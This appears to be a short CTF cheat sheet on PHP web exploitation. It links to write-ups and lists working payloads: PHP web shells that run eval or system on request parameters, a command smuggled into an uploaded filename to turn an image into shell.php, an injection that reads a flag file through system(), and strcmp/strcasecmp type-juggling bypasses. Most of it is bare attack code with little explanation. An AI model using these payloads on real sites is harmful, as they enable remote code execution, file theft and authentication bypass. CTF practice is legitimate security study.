 # +

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# jail

[GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    https://twitter.com/terjanq/status/1257276298550001664
